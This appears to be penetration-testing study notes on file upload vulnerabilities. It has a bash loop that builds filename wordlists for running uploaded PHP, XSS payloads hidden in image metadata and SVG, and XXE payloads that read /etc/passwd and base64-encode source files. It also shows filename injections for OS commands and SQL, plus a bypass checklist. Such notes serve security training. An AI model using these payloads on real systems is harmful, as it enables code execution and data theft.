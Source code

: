 # File Upload

## Character Injection
- We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.
- Characters:
    - `%20`
    - `%0a`
    - `%00`
    - `%0d0a`
    - `/`
    - `.\`
    - `.`
    - `…`
    - `:`

- Small bash script generates all permutations of the file name, where the above characters would be injected before and after both the PHP and JPG extensions, as follows:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```


## Limited File Uploads
- **XSS**
    - Exif tool
    ```bash
    exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
    exiftool HTB.jpg
    ...SNIP...
    Comment                         :  "><img src=1 onerror=alert(window.origin)>
    ```

    - SVG
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
        <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
        <script type="text/javascript">alert(window.origin);</script>
    </svg>
    ```

- **XXE**
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <svg>&xxe;</svg>
    ```

    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
    <svg>&xxe;</svg>
    ```

## Other Upload Attacks
- Injections in File Name
    -  If the web application uses the file name within an OS command: `file$(whoami).jpg` or (file`whoami`.jpg) or `file.jpg||whoami`
    - We may use an XSS payload in the file name (e.g. `<script>alert(window.origin);</script>`)
    - We may also inject an SQL query in the file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.

- Windows-specific Attacks
    - One such attack is using reserved characters, such as (`|`, `<`, `>`, `*`, or `?`), which are usually reserved for special uses like wildcards.
    - We may use Windows reserved names for the uploaded file name, like (`CON`, `COM1`, `LPT1`, or `NUL`)

## Testing
- Bypasses
    - [ ] Check client-side validation
    - [ ] Fuzzing extensions to bypass blacklisted filters
    - [ ] Trying for double extensions e.g. [PHP Extenstions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
    - [ ] Check Content-type header validation
    - [ ] Check MIME-Type validation

